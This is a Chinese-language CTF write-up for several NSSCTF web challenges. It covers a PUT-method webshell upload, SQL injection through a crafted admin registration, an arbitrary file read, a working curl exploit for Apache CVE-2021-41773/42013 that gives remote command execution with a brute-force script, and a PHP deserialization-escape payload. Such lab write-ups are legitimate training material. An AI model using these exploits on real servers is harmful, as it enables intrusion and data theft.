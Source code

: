 ## Round#1

### basic_check

+++

这题的wp说可以看到OPTIONS请求(我没看到)

> **OPTIONS请求**
>
> 1、获取服务器支持的HTTP请求方法；
>
> 2、用来检查服务器的性能。例如：[AJAX](https://so.csdn.net/so/search?q=AJAX&spm=1001.2101.3001.7020)进行跨域请求时的预检，需要向另外一个域名的资源发送一个HTTP OPTIONS请求头，用以判断实际发送的请求是否安全。

```shell
xiaolei@xl-pc:~$ curl -i -X OPTIONS "http://1.14.71.254:28294/index.php"
HTTP/1.1 200 OK
Date: Sun, 07 Aug 2022 06:52:04 GMT
Server: Apache/2.4.38 (Debian)
DAV: 1,2
DAV: <http://apache.org/dav/propset/fs/1>
MS-Author-Via: DAV
Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,PUT,LOCK,UNLOCK
Content-Length: 0
```

发现支持**PUT**请求，**PUT请求**是可以直接写马的
![image-20220807150009574](D:\Typora\note\CTF\web\NSSCTF.assets\image-20220807150009574.png)

访问1.php就可以随意RCE了

+++

### sql_by_sql

+++

有个注册面板，很显然要以admin登录才能进行下一步
注册**admin'--+**，然后修改密码，改完密码以admin登录
有一个查询面板，sqlmap注入之后发现是`SQLite`数据库
直接sqlmap一把梭了，也没做过这种数据库的题

+++

## Round#4

### 1zweb

+++

环境有个读取文件的功能
显然是由于没有过滤，可以直接读**/flag**

+++

### ez_rce

+++

ez但不ez☹️
打开页面只有一个**It works**
抓包 扫端口都是什么都没发现
只好去百度一下**It works**，发现是**apache**搭建成功的页面
![image-20220804091405205](D:\Typora\note\CTF\web\NSSCTF.assets\image-20220804091405205.png)

看下apache的版本，百度一下就能发现这个版本有个文件读取和目录穿越的洞
[CVE-2021-41773和CVE-2021-42013漏洞分析](https://xz.aliyun.com/t/10359)
网上流传的payload

```sh
xiaolei@xl-pc:~/web$ curl -X POST -d "echo;whoami" http://1.14.71.254:28226//cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
daemon
```

成功回显

然后ls发现了一个**flag_is_here**，cat死活cat不出来！！也没报错说是文件夹
然后

```sh
xiaolei@xl-pc:~/web$ curl -X POST -d "echo;find / -name "flag*"" http://1.14.71.254:28226//cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
```

![image-20220804095859584](D:\Typora\note\CTF\web\NSSCTF.assets\image-20220804095859584.png)

果然是个文件夹.....
把回显输出到文件里面

```sh
xiaolei@xl-pc:~/web$ curl -X POST -d "echo;find / -name "flag*"" http://1.14.71.254:28226//cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh > /home/xiaolei/web/flag.txt
```

前面有几个带flag，但很显然不是的，先删了
然后写开始py

```python
import os

f=open('/home/xiaolei/web/note.txt')
text=f.readlines()
f.close
j=0
for line in text:
    os.system(f'curl -X POST -d "echo;cat {line}" http://1.14.71.254:28430/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh > /home/xiaolei/web/flag.txt')
    f=open('/home/xiaolei/web/flag.txt')
    print(j)
    j+=1
    data=f.read()
    f.close
    if 'Fake Flag' in data:
        1
    else :
        break
```

官方WP是用bp暴力破解的，这样快多了...我写的时候,不会多线程,脚本跑了15分钟才在9088个跑出flag

![image-20220804100134874](D:\Typora\note\CTF\web\NSSCTF.assets\image-20220804100134874.png)

+++

## prize

+++

### prize_p5

直接给出源码

```php
<?php
error_reporting(0);

class catalogue{
    public $class;
    public $data;
    public function __construct()
    {
        $this->class = "error";
        $this->data = "hacker";
    }
    public function __destruct()
    {
        echo new $this->class($this->data);
    }
}
class error{
    public function __construct($OTL)
    {
        $this->OTL = $OTL;
        echo ("hello ".$this->OTL);
    }
}
class escape{                                                                   
    public $name = 'OTL';                                                 
    public $phone = '123666';                                             
    public $email = 'sweet@OTL.com';                          
}
function abscond($string) {
    $filter = array('NSS', 'CTF', 'OTL_QAQ', 'hello');
    $filter = '/' . implode('|', $filter) . '/i';
    return preg_replace($filter, 'hacker', $string);
}
if(isset($_GET['cata'])){
    if(!preg_match('/object/i',$_GET['cata'])){
        unserialize($_GET['cata']);
    }
    else{
        $cc = new catalogue(); 
        unserialize(serialize($cc));           
    }    
    if(isset($_POST['name'])&&isset($_POST['phone'])&&isset($_POST['email'])){
        if (preg_match("/flag/i",$_POST['email'])){
            die("nonono,you can not do that!");
        }
        $abscond = new escape();
        $abscond->name = $_POST['name'];
        $abscond->phone = $_POST['phone'];
        $abscond->email = $_POST['email'];
        $abscond = serialize($abscond);
        $escape = get_object_vars(unserialize(abscond($abscond)));
        if(is_array($escape['phone'])){
        echo base64_encode(file_get_contents($escape['email']));
        }
        else{
            echo "I'm sorry to tell you that you are wrong";
        }
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

类里面并没有可以利用的地方，所以唯一可以利用的就是**file_get_contents**，利用它来读取文件
**abscond**函数里面的替换加上**emai**l中对flag的过滤，很容易让人想到利用反序列化逃逸来构造一个值为`/flag`的`email`
经过构造
序列化后的值

```php
O:6:"escape":3:{s:4:"name";s:3:"OTL";s:5:"phone";a:3:{i:0;s:1:"1";i:1;s:1:"2";i:2;s:60:"CTFCTFCTFCTFCTFCTFCTFCTFCTFhello";}s:5:"email";s:5:"/flag";}";}s:5:"email";s:3:"123";}
```

替换后的值

```php
O:6:"escape":3:{s:4:"name";s:3:"OTL";s:5:"phone";a:3:{i:0;s:1:"1";i:1;s:1:"2";i:2;s:60:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";}s:5:"email";s:5:"/flag";}";}s:5:"email";s:3:"123";}
```

反序列化后的值

```php
class escape#2 (3) {
  public $name =>
  string(3) "OTL"
  public $phone =>
  array(3) {
    [0] =>
    string(1) "1"
    [1] =>
    string(1) "2"
    [2] =>
    string(60) "hackerhackerhackerhackerhackerhackerhackerhackerhackerhacker"
  }
  public $email =>
  string(5) "/flag"
}
```

最终的payload

```php
GET:
?cata=1
POST:
name=OTL&phone[0]=abc&phone[1]=def&phone[2]=CTFCTFCTFCTFCTFCTFCTFCTFCTFhello";}s:5:"email";s:5:"/flag";}&email=123
```





